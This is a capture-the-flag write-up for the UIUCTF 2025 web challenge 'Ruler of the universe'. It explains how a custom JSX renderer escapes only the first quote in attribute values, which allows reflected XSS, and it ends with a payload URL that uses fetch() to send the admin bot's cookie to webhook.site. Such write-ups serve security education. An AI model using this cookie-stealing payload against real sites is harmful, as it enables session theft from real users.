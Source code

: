 ```yaml
---
title: "UIUCTF 2025 - Ruler of the universe"
date: 2025-07-28 15:00:00 +0200
categories: [UIUCTF 2025, Web]
tags: [Web]
description: Writeup for the first web challenge of the UIUCTF of 2025
---
```



## The write up

For this challenge, we have the source code of the web application. So let's take a look at it :

### Reading the source code

First, let's locate the flag :

We see an ```adminbot``` folder. That's my trigger for a web-client based challenge. Furthermore, we see : 


```typescript
await browser.setCookie({
    name: "flag",
    value: FLAG,
    domain: new URL(mainUrl).hostname,
    httpOnly: false,
    secure: true,
});
```
{: file="adminbot/index.ts" }

We can clearly see that we need to steal the bot cookie to get the flag. Note that the flag ```httpOnly``` is set to ```false``` so it makes our life easier since we can use javascript to retrieve the cookie. And who says javascript + cookies says XSS !


Our plan is :
- Find an exploitable XSS in the web app
- Submit the compromised URL to the bot
- Enjoy our flag

### Finding the XSS

We see from the source code that the web application has only two pages : ```home.tsx``` and  ```module.tsx```

After viewing ```index.tsx``` we see that ```home.tsx``` does not take any user input, just the admin bot url that we cannot control : 

``` react
"/": {
    GET: (req) => {
        const url = new URL(req.url);

        let adminUrl = "#";
        if (url.hostname == "localhost") {
            adminUrl = "http://localhost:3001";
        } else if (
            url.hostname.endsWith("ruler-of-the-universe.chal.uiuc.tf")
        ) {
            const currentHost = url.host;
            const instancePrefix =
                currentHost.split(`-`)[0] + `-` + currentHost.split(`-`)[1];
            adminUrl = `https://${instancePrefix}-adminbot-ruler-of-the-universe.chal.uiuc.tf/`;
        }

        return new Response(
            render(
                <App>
                    <Home adminUrl={adminUrl} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

But it's different for the ```/module``` path : 

``` react
"/module/:id": {
    GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
            render(
                <App>
                    <Module id={moduleId} crewMessage={crewMessage} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

We see two arguments are passed to ```module.tsx``` : ```moduleId``` and ```crewMessage```.

- ```moduleId``` is got from the parameters of the url but unfortunately it is cast into an int, so no injection possible here
- ```crewMessage``` is directly taken from the ```message``` parameter, we can play with it as we want

We have now only one option to investigate : the ```crewMessage``` variable.

We see two reflections of ```crewMessage``` in ```module.tsx``` :

``` react
<input
    id="message"
    name="message"
    type="text"
    class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
    placeholder={
        crewMessage
            ? `Update your message: ${crewMessage}`
            : "Enter a message for the crew"
    }
/>
```
{: file="challenge/src/app/pages/module.tsx" }

and : 

``` react
{crewMessage && <p>[13:10] Crew message: "{crewMessage}"</p>}
```
{: file="challenge/src/app/pages/module.tsx" }

### Understanding the rendering logic

At this point, we suspect the ```crewMessage``` value might be reflected unsafely in the DOM. But we need to understand how rendering is performed. Looking at ```challenge/src/my_jsx/index.ts```, we find a custom JSX renderer is used instead of React’s default output engine.

The rendering code looks like this:

``` typescript
if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
}
```
{: file="challenge/src/my_jsx/index.ts" }

This means any string used as a child node (like the second reflection of ```crewMessage```) will be automatically HTML-escaped using escapeHTML.

However, props are handled differently:
``` typescript
.map(([key, value]) => {
    if (typeof value === "boolean") {
        return value ? key : "";
    }
    return `${key}="${String(value).replace('"', "&quot;")}"`;
})
```
{: file="challenge/src/my_jsx/index.ts" }

This code only escapes the first ```"``` in ```&quot```, nothing else (unlike python). This makes the first reflection of ```crewMessage``` vulnerable !

### Making the payload

We know that we can control ```crewMessage``` with the ```message``` parameter on ```/module/id``` and that the first ```"``` will be escape.

We will try something like this : (not url encoded !)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>alert(1)</script>
```

Explanation : the first ```"``` got escaped but everything else is left as is, so we closed the input tag via ```">``` and finally write our javascript between ```<script>``` tag.

When visiting the url, we sucecssfully get a popup, we have a working XSS !

### Retrieving the flag

Now let's build a payload to steal the admin's cookie and retrieve our flag !

- We can access the cookies by document.cookie
- We need a way to send the cookie back to us

So, we will do a request to a server with the flag.

I personally use webhook.site but of course you're free to use whatever tool you want.

Here's the final url : (again not url encoded)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>fetch('https://webhook.site/yourUUIDhere/?flag='+document.cookie)</script>
```

Submit the url (only the part from ```module/...```) to the admin bot and enjoy your flag !

### How to patch this ?

Avoid writing your own custom JSX renderer or input sanitizer unless absolutely necessary. Prefer using mature, battle-tested libraries that handle escaping properly, like React’s default DOM renderer.